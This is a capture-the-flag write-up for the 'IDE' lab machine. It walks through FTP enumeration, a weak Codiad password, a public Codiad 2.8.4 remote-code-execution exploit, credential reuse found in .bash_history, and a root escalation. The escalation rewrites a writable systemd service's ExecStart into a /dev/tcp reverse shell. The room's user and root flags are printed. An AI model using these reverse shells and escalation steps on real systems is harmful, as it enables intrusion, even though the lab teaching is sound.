

# IDE



## Port Scan

```bash
└─$ rustscan -a ide.thm --ulimit 5000 -- -A -oN nmap.log
...
Open xx.xx.xxx.xxx:21
Open xx.xx.xxx.xxx:22
Open xx.xx.xxx.xxx:80
Open xx.xx.xxx.xxx:62337
...
PORT      STATE SERVICE REASON         VERSION
21/tcp    open  ftp     syn-ack ttl 62 vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:xxx.xxx.xxx.xx
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
22/tcp    open  ssh     syn-ack ttl 62 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e2:be:d3:3c:e8:76:81:ef:47:7e:d0:43:d4:28:14:28 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC94RvPaQ09Xx+jMj32opOMbghuvx4OeBVLc+/4Hascmrtsa+SMtQGSY7b+eyW8Zymxi94rGBIN2ydPxy3XXGtkaCdQluOEw5CqSdb/qyeH+L/1PwIhLrr+jzUoUzmQil+oUOpVMOkcW7a00BMSxMCij0HdhlVDNkWvPdGxKBviBDEKZAH0hJEfexz3Tm65cmBpMe7WCPiJGTvoU9weXUnO3+41Ig8qF7kNNfbHjTgS0+XTnDXk03nZwIIwdvP8dZ8lZHdooM8J9u0Zecu4OvPiC4XBzPYNs+6ntLziKlRMgQls0e3yMOaAuKfGYHJKwu4AcluJ/+g90Hr0UqmYLHEV
|   256 a8:82:e9:61:e4:bb:61:af:9f:3a:19:3b:64:bc:de:87 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBBzKTu7YDGKubQ4ADeCztKu0LL5RtBXnjgjE07e3Go/GbZB2vAP2J9OEQH/PwlssyImSnS3myib+gPdQx54lqZU=
|   256 24:46:75:a7:63:39:b6:3c:e9:f1:fc:a4:13:51:63:20 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJ+oGPm8ZVYNUtX4r3Fpmcj9T9F2SjcRg4ansmeGR3cP
80/tcp    open  http    syn-ack ttl 62 Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
62337/tcp open  http    syn-ack ttl 62 Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Codiad 2.8.4
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Unknown favicon MD5: B4A327D2242C42CF2EE89C623279665F
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Linux 5.14 - 6.8 (96%), Linux 4.15 - 5.19 (96%), Linux 4.15 (96%), Linux 5.4 - 5.15 (96%), Android 10 - 12 (Linux 4.14 - 4.19) (93%), Android 12 (Linux 5.4) (92%), Android 9 - 11 (Linux 4.9 - 4.14) (92%), Linux 2.6.32 (92%), Linux 2.6.39 - 3.2 (92%), Linux 3.1 - 3.2 (92%)
No exact OS matches for host (test conditions non-ideal).
```

There are 4 opening ports, they are

- Port 21: FTP (vsftpd 3.0.3)
- Port 22: SSH (OpenSSH 7.6p1)
- Port 80: HTTP (Apache httpd 2.4.29)
- Port 62337: HTTP (Apache httpd 2.4.29)

## FTP Anonymous Login

From the above enumeration, we already confirm that this FTP accepts anonymous login

```bash
└─$ ftp anonymous@ide.thm
Connected to ide.thm.
220 (vsFTPd 3.0.3)
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||30533|)
150 Here comes the directory listing.
226 Directory send OK.
ftp> ls -la
229 Entering Extended Passive Mode (|||28350|)
150 Here comes the directory listing.
drwxr-xr-x    3 0        114          4096 Jun 18  2021 .
drwxr-xr-x    3 0        114          4096 Jun 18  2021 ..
drwxr-xr-x    2 0        0            4096 Jun 18  2021 ...
226 Directory send OK.
ftp> cd ..
250 Directory successfully changed.
ftp> ls -la
229 Entering Extended Passive Mode (|||25537|)
150 Here comes the directory listing.
drwxr-xr-x    3 0        114          4096 Jun 18  2021 .
drwxr-xr-x    3 0        114          4096 Jun 18  2021 ..
drwxr-xr-x    2 0        0            4096 Jun 18  2021 ...
226 Directory send OK.
ftp> cd ...
250 Directory successfully changed.
ftp> ls -la
229 Entering Extended Passive Mode (|||58438|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0             151 Jun 18  2021 -
drwxr-xr-x    2 0        0            4096 Jun 18  2021 .
drwxr-xr-x    3 0        114          4096 Jun 18  2021 ..
ftp> get -
local: - remote: -
229 Entering Extended Passive Mode (|||27415|)
150 Opening BINARY mode data connection for - (151 bytes).
100% |**********************************************************************************************************************************************************************************************|   151        2.87 MiB/s    00:00 ETA
226 Transfer complete.
151 bytes received in 00:00 (1.42 KiB/s)
```

We get a file, inside it, we know John’s password has been reset.

```bash
─$ cat ./-
Hey john,
I have reset the password as you have asked. Please use the default password to login. 
Also, please take care of the image file ;)
- drac.
```

## HTTP (Port 80) Enumeration

Port 80 shows an Apache2 default page


Sadly, there is nothing.

```bash
└─$ ffuf -u http://ide.thm/FUZZ -w /usr/share/wordlists/dirb/common.txt 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://ide.thm/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

.htpasswd               [Status: 403, Size: 272, Words: 20, Lines: 10, Duration: 111ms]
.htaccess               [Status: 403, Size: 272, Words: 20, Lines: 10, Duration: 430ms]
                        [Status: 200, Size: 10918, Words: 3499, Lines: 376, Duration: 1430ms]
.hta                    [Status: 403, Size: 272, Words: 20, Lines: 10, Duration: 4490ms]
index.html              [Status: 200, Size: 10918, Words: 3499, Lines: 376, Duration: 104ms]
server-status           [Status: 403, Size: 272, Words: 20, Lines: 10, Duration: 105ms]
:: Progress: [4614/4614] :: Job [1/1] :: 381 req/sec :: Duration: [0:00:14] :: Errors: 0 ::
```

## Codiad (Port 8080) Login

We know it is running Codiad 2.8.4


It shows a login page


Because we know there is a John user, I tried some simple passwords and found that  `password` was the correct match.


## RCE

This version of Codiad also suffers from RCE, which is [CVE-2018-14009](https://nvd.nist.gov/vuln/detail/CVE-2018-14009)

```bash
─$ searchsploit codiad 2.8.4
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                                           |  Path
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Codiad 2.8.4 - Remote Code Execution (Authenticated)                                                                                                                                                     | multiple/webapps/49705.py
Codiad 2.8.4 - Remote Code Execution (Authenticated) (2)                                                                                                                                                 | multiple/webapps/49902.py
Codiad 2.8.4 - Remote Code Execution (Authenticated) (3)                                                                                                                                                 | multiple/webapps/49907.py
Codiad 2.8.4 - Remote Code Execution (Authenticated) (4)                                                                                                                                                 | multiple/webapps/50474.txt
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Using the first script, we can try to establish a reverse shell

```bash
└─$ python 49705.py http://ide.thm:62337/ john password xxx.xxx.xxx.xx 1234 linux                                                                                                                                                          
[+] Please execute the following command on your vps: 
echo 'bash -c "bash -i >/dev/tcp/xxx.xxx.xxx.xx/1235 0>&1 2>&1"' | nc -lnvp 1234
nc -lnvp 1235
[+] Please confirm that you have done the two command above [y/n]
[Y/n] y
[+] Starting...
[+] Login Content : {"status":"success","data":{"username":"john"}}
[+] Login success!
[+] Getting writeable path...
[+] Path Content : {"status":"success","data":{"name":"CloudCall","path":"\/var\/www\/html\/codiad_projects"}}
[+] Writeable Path : /var/www/html/codiad_projects
[+] Sending payload...

```

Open up our `nc` listener, and we finally gain our foothold

```bash
└─$ nc -lnvp 1235
listening on [any] 1235 ...
connect to [xxx.xxx.xxx.xx] from (UNKNOWN) [xx.xx.xxx.xxx] 57178
bash: cannot set terminal process group (965): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ide:/var/www/html/codiad/components/filemanager$ whoami
whoami
www-data
www-data@ide:/var/www/html/codiad/components/filemanager$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Lateral Movement

We can locate the flag, but we are not permitted to read it

```bash
www-data@ide:/var/www/html/codiad/components/filemanager$ find / -type f -name user.txt 2> /dev/null
<manager$ find / -type f -name user.txt 2> /dev/null      
/home/drac/user.txt
www-data@ide:/var/www/html/codiad/components/filemanager$ cat /home/drac/user.txt
<iad/components/filemanager$ cat /home/drac/user.txt      
cat: /home/drac/user.txt: Permission denied
...
www-data@ide:/home/drac$ ls -la user.txt
ls -la user.txt
-r-------- 1 drac drac 33 Jun 18  2021 user.txt
```

However, the `.bash_history` is readable, and we found the MySQL Credentials

```bash
www-data@ide:/home/drac$ ls -la
ls -la
total 52
drwxr-xr-x 6 drac drac 4096 Aug  4  2021 .
drwxr-xr-x 3 root root 4096 Jun 17  2021 ..
-rw------- 1 drac drac   49 Jun 18  2021 .Xauthority
-rw-r--r-- 1 drac drac   36 Jul 11  2021 .bash_history
-rw-r--r-- 1 drac drac  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 drac drac 3787 Jul 11  2021 .bashrc
drwx------ 4 drac drac 4096 Jun 18  2021 .cache
drwxr-x--- 3 drac drac 4096 Jun 18  2021 .config
drwx------ 4 drac drac 4096 Jun 18  2021 .gnupg
drwx------ 3 drac drac 4096 Jun 18  2021 .local
-rw-r--r-- 1 drac drac  807 Apr  4  2018 .profile
-rw-r--r-- 1 drac drac    0 Jun 17  2021 .sudo_as_admin_successful
-rw------- 1 drac drac  557 Jun 18  2021 .xsession-errors
-r-------- 1 drac drac   33 Jun 18  2021 user.txt
www-data@ide:/home/drac$ cat .bash_history
cat .bash_history
mysql -u drac -p 'Th3dRaCULa1sR3aL'
```

I was about to see if there was anything valuable in the database, but MySQL has been removed:(

```bash
www-data@ide:/home/drac$ cat .bash_history
cat .bash_history
mysql -u drac -p 'Th3dRaCULa1sR3aL'
www-data@ide:/home/drac$ mysql -u drac -p 'Th3dRaCULa1sR3aL'
mysql -u drac -p 'Th3dRaCULa1sR3aL'

Command 'mysql' not found, but can be installed with:

apt install mysql-client-core-5.7   
apt install mariadb-client-core-10.1

Ask your administrator to install one of them.

```
So maybe the credentials are being reused? With that in mind, I log in SSH using `drac:Th3dRaCULa1sR3aL`, and it worked.

```bash
─$ ssh drac@ide.thm
...
drac@ide.thm's password: 
...
drac@ide:~$ ls
user.txt
drac@ide:~$ cat user.txt
02930d21a8eb009f6d26361b2d24a466
```

User Flag: `02930d21a8eb009f6d26361b2d24a466`

## Privilege Escalation

The user `drac` was allowed to restart `vsftpd`

```bash
drac@ide:~$ sudo -l
[sudo] password for drac: 
Matching Defaults entries for drac on ide:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User drac may run the following commands on ide:
    (ALL : ALL) /usr/sbin/service vsftpd restart

```

We can check the status of `vsftpd` first, and it is active

```bash
drac@ide:~$ systemctl status vsftpd
Warning: The unit file, source configuration file or drop-ins of vsftpd.service changed on disk. Run 'systemctl daemon-reload' to reload units.
● vsftpd.service - vsftpd FTP server
   Loaded: loaded (/lib/systemd/system/vsftpd.service; enabled; vendor preset: enabled)
   Active: active (running) since Mon 2026-06-01 14:15:58 UTC; 13min ago
  Process: 2598 ExecStartPre=/bin/mkdir -p /var/run/vsftpd/empty (code=exited, status=0/SUCCESS)
 Main PID: 2607 (vsftpd)
    Tasks: 1 (limit: 1076)
   CGroup: /system.slice/vsftpd.service
           └─2607 /usr/sbin/vsftpd /etc/vsftpd.conf

```

But that does not help us much. So I check if any configuration files that is owned by the `drac` group and found that `/lib/systemd/system/vsftpd.service` is the answer

```bash
drac@ide:~$ find / -type f -group drac 2> /dev/null|grep -i vsftpd
/lib/systemd/system/vsftpd.service
drac@ide:~$ ls -la /lib/systemd/system/vsftpd.service
-rw-rw-r-- 1 root drac 248 Aug  4  2021 /lib/systemd/system/vsftpd.service

```

It might seem harmless at first, but we can actually modify `ExecStart` to connect to our `nc` listener, that way, it will establish a reverse shell when it is restarted

```bash
ExecStart=/bin/bash -c "bash -i >& /dev/tcp/xxx.xxx.xxx.xx/4321 0>&1"
```

After modifying the service file, remember to run `systemctl daemon-reload` to apply the changes, then we can restart the `vsftpd`

```bash
drac@ide:~$ systemctl daemon-reload
==== AUTHENTICATING FOR org.freedesktop.systemd1.reload-daemon ===
Authentication is required to reload the systemd state.
Authenticating as: drac
Password: 
==== AUTHENTICATION COMPLETE ===
drac@ide:~$ sudo /usr/sbin/service vsftpd restart
```

Now, we will see our `nc` listener is root, and we can get the root flag.

```bash
└─$ nc -lvnp 4321
listening on [any] 4321 ...
connect to [xxx.xxx.xxx.xx] from (UNKNOWN) [xx.xx.xxx.xxx] 35938
bash: cannot set terminal process group (3388): Inappropriate ioctl for device
bash: no job control in this shell
root@ide:/# whoami
whoami
root
root@ide:/# id
id
uid=0(root) gid=0(root) groups=0(root)
root@ide:/# cd /root
cd /root
root@ide:/root# ls
ls
root.txt
root@ide:/root# cat root.txt
cat root.txt
ce258cb16f47f1c66f0b0b77f4e0fb8d
```

Root Flag: `ce258cb16f47f1c66f0b0b77f4e0fb8d`
